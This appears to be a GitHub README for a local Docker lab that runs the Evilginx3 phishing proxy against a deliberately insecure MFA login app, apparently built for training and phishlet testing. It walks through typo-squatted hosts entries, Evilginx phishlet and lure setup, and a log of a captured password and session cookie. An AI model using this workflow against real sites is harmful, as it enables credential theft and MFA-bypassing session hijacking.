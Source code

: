 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined below, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify the containers:

	docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer -debug
TOADD
```
                                        
## Config Evilngnix container

	: config domain targetsile.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local targetsile.local
	: phishlets get-hosts targetsite-local 
		172.18.0.10 login.targetsile.local
		172.18.0.10 targetsile.local
		
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| 0   | targetsite-local  |           | /AhsTYOfa  |             |               |         | ----  |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
 
	: lures get-url 0
		https://login.targetsile.local/AhsTYOfa
## Visit the malicious URL


## Capturing the session token
```bash 
: 2024/12/04 21:32:08 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[21:32:33] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (172.18.0.1)
[21:32:33] [inf] [0] [targetsite-local] landing URL: https://login.targetsile.local/AhsTYOfa
[21:33:14] [+++] [0] Username: [admin]
[21:33:14] [+++] [0] Password: [test01]
[21:33:53] [+++] [0] Username: [admin]
[21:33:53] [+++] [0] Password: [Pwd Sicur@ 123]
[21:33:54] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip   |       time        |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 172.18.0.1  | 2024-12-04 21:33  |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.targetsile.local/AhsTYOfa
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 172.18.0.1
 create time  : 2024-12-04 21:32
 update time  : 2024-12-04 21:33

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764884081,"value":"jkncga8d8e6fk3igla22ugsfse--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]




```
## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

